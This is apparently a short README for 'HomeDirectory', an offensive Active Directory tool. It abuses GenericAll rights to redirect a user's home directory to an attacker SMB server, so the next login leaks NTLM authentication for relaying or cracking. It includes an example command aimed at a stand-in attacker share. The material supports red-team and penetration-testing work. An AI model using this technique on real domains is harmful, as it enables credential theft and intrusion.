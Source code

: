 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe \<username\> \<drive letter\> \<attacker share\>   
Example: HomeDirectory.exe jblogg N \\\attackerip\\bogus_share       
        
        [*] *targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server*
  
 
